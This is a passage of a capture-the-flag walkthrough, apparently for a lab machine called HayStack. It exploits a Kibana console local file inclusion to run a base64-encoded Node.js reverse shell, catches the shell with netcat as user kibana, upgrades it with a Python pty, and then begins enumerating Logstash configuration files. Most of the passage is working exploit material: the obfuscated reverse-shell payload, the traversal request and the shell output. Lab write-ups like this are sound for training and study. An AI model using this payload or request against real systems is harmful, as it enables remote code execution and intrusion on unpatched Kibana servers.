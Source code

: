 * Copy the output and create a file with this content but decode
```
[security@haystack ~]$ echo "KGZ1bmN0aW9uKCl7CiAgICB2YXIgbmV0ID0gcmVxdWlyZSgibmV0IiksCiAgICAgICAgY3AgPSBy
> ZXF1aXJlKCJjaGlsZF9wcm9jZXNzIiksCiAgICAgICAgc2ggPSBjcC5zcGF3bigiL2Jpbi9zaCIs
> IFtdKTsKICAgIHZhciBjbGllbnQgPSBuZXcgbmV0LlNvY2tldCgpOwogICAgY2xpZW50LmNvbm5l
> Y3QoMTMzNywgIjE3Mi4xOC4wLjEiLCBmdW5jdGlvbigpewogICAgICAgIGNsaWVudC5waXBlKHNo
> LnN0ZGluKTsKICAgICAgICBzaC5zdGRvdXQucGlwZShjbGllbnQpOwogICAgICAgIHNoLnN0ZGVy
> ci5waXBlKGNsaWVudCk7CiAgICB9KTsKICAgIHJldHVybiAvYS87IC8vIFByZXZlbnRzIHRoZSBO
> b2RlLmpzIGFwcGxpY2F0aW9uIGZvcm0gY3Jhc2hpbmcKfSkoKTsK" | base64 -d > exploit.js
```

5. Now you can do **LFI** and access the previously created exploit.
```
[security@haystack tmp]$ curl -s -X GET "localhost:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../../../../../tmp/exploit.js"
```

* Remember listen in port choosed.

**Output**
```
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/HayStack]
└─# nc -lvnp 4444  
listening on [any] 4444 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.115] 39798
whoami
kibana
```

* Spawn a bash with python `python -c "import pty; pty.spawn('/bin/bash')"`

6. Search for files with user **kibana**

``` 
bash-4.2$ find / -user kibana 2>/dev/null 
```
**Output**
```
/etc/logstash/startup.options
/opt/kibana
```

7. Examine `/etc/logstash/conf.d` directory
```
bash-4.2$ ls -la
-rw-r-----. 1 root kibana  131 jun 20  2019 filter.conf
-rw-r-----. 1 root kibana  186 jun 24  2019 input.conf
-rw-r-----. 1 root kibana  109 jun 24  2019 output.conf
```

* **filter.conf**
```bash
filter {
        if [type] == "execute" {
                grok {
                        match => { "message" => "Ejecutar\s*comando\s*:\s+%{GREEDYDATA:comando}" }
                }
        }
}
```
---
* **input.conf**
```bash
input {
        file {
                path => "/opt/kibana/logstash_*"
                start_position => "beginning"
                sincedb_path => "/dev/null"
                stat_interval => "10 second"
```